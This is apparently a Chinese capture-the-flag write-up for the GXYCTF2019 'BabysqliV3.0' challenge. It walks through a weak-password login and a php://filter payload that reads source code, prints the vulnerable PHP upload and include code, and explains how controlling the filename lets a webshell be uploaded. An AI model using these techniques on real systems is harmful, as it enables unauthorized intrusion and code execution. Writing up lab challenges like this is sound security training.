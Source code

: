 # \[GXYCTF2019]BabysqliV3.0

## \[GXYCTF2019]BabysqliV3.0

## 考点

* 弱口令admin/password
* 文件包含配合伪协议读取文件
* PHP代码审计

## wp

账号是admin，弱口令试出来密码是password

进去之后是个文件上传，URL是http://379cd025-c636-43ae-bec1-60fab63cfa8b.node4.buuoj.cn:81/home.php?file=upload

试试文件读取home.php?file=php://filter/read=convert.base64-encode/resource=home

只能获取home和upload结尾的文件

home.php

```php
<?php
session_start();
echo "<meta http-equiv=\"Content-Type\" content=\"text/html; charset=utf-8\" /> <title>Home</title>";
error_reporting(0);
if(isset($_SESSION['user'])){
	if(isset($_GET['file'])){
		if(preg_match("/.?f.?l.?a.?g.?/i", $_GET['file'])){
			die("hacker!");
		}
		else{
			if(preg_match("/home$/i", $_GET['file']) or preg_match("/upload$/i", $_GET['file'])){
				$file = $_GET['file'].".php";
			}
			else{
				$file = $_GET['file'].".fxxkyou!";
			}
			echo "当前引用的是 ".$file;
			require $file;
		}
		
	}
	else{
		die("no permission!");
	}
}
?>
```

upload.php

```php
<meta http-equiv="Content-Type" content="text/html; charset=utf-8" /> 

<form action="" method="post" enctype="multipart/form-data">
	上传文件
	<input type="file" name="file" />
	<input type="submit" name="submit" value="上传" />
</form>

<?php
error_reporting(0);
class Uploader{
	public $Filename;
	public $cmd;
	public $token;
	

	function __construct(){
		$sandbox = getcwd()."/uploads/".md5($_SESSION['user'])."/";
		$ext = ".txt";
		@mkdir($sandbox, 0777, true);
		if(isset($_GET['name']) and !preg_match("/data:\/\/ | filter:\/\/ | php:\/\/ | \./i", $_GET['name'])){
			$this->Filename = $_GET['name'];
		}
		else{
			$this->Filename = $sandbox.$_SESSION['user'].$ext;
		}

		$this->cmd = "echo '<br><br>Master, I want to study rizhan!<br><br>';";
		$this->token = $_SESSION['user'];
	}

	function upload($file){
		global $sandbox;
		global $ext;

		if(preg_match("[^a-z0-9]", $this->Filename)){
			$this->cmd = "die('illegal filename!');";
		}
		else{
			if($file['size'] > 1024){
				$this->cmd = "die('you are too big (′▽`〃)');";
			}
			else{
				$this->cmd = "move_uploaded_file('".$file['tmp_name']."', '" . $this->Filename . "');";
			}
		}
	}

	function __toString(){
		global $sandbox;
		global $ext;
		// return $sandbox.$this->Filename.$ext;
		return $this->Filename;
	}

	function __destruct(){
		if($this->token != $_SESSION['user']){
			$this->cmd = "die('check token falied!');";
		}
		eval($this->cmd);
	}
}

if(isset($_FILES['file'])) {
	$uploader = new Uploader();
	$uploader->upload($_FILES["file"]);
	if(@file_get_contents($uploader)){
		echo "下面是你上传的文件：<br>".$uploader."<br>";
		echo file_get_contents($uploader);
	}
}

?>
```

在上传这里文件名是完全可控的，并且没有对文件内容进行检测，那就可以直接传shell进去了

![](../../.gitbook/assets/NLkBVSk1gmr-hnVR2slUKLyKWZ-UwoCKxtOGAX8CEl8.png)

用burp抓一下包，加个name参数

![](../../.gitbook/assets/zItw2KReuDdGtZD1odJrf9HbMsp3NLSlLPNfzv2my1Y.png)

![](../../.gitbook/assets/WW-ZOzUQFxK-8nmalkifmNCMTh0fc3lSIH6OzicSutc.png)

在bp里面抓包改包send两次就可以了，send两次是为了看返回的位置，实际上send一次就可以了，没有返回是因为file\_get\_contents那里报错。

![](../../.gitbook/assets/PKDnoxtCiPMqlwOHIKzxbFNIpk4BpU8PTwQTSXVCdeY.png)

## 小结

1. 代码审计要理清代码的逻辑
